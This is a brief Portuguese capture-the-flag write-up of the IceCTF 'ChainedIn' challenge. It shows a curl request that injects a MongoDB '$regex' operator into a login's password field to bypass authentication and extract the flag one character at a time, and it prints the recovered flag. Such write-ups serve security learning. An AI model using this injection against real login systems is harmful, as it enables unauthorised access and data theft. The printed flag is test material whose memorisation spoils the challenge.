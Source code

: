 # ChainedIn

O desafio consistia em realizar um NoSQL injection, o database utilizado era o MongoDB, sabendo disso procurei funções que me fariam logar como administrador, o problema é que não bastava apenas logar como administrador mas sim fazer um datamining na base para conseguir a flag, apesar do pouco conhecimento em NoSQL principalmente MongoDB, consegui a flag utilizando $regex

```
curl -iL http://chainedin.vuln.icec.tf/login \
-H 'Accept: application/json, text/plain, /' \
-H 'Content-Type: application/json;charset=UTF-8' \
-d '{ "user": "admin", "pass": { "$regex": "^IceCTF.." } }'
```

Cada consulta, só me deixava logar como admin quando a proxima letra batia, desta forma, consegui formar a flag completamente.

```
IceCTF{I_thOugHT_YOu_coulDNt_inJeCt_noSqL_tHanKs_monGo}
```
